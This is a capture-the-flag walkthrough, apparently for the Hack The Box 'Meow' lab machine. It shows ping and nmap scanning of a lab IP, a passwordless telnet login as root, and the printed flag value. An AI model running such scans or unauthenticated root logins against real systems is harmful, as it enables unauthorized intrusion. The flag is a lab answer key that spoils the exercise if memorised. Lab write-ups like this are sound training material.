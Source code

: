 ![Meow.png](/assets/meow.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.148.116
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.148.116 
```

**Output**
```bash
PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack ttl 63
```

3. Connect with **telnet**
```bash
┌──(root㉿kali)-[/home/kali]
└─| telnet 10.129.148.116
Trying 10.129.148.116...
Connected to 10.129.148.116.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
```
+ In `Meow login: ` write **root**.
+ We do this to access to system without password.


**Output**
```bash
root@Meow:~| ls
flag.txt  snap
```

4. List files of system and read the `flag.txt` file.
```bash
root@Meow:~| cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```



**By: EsT**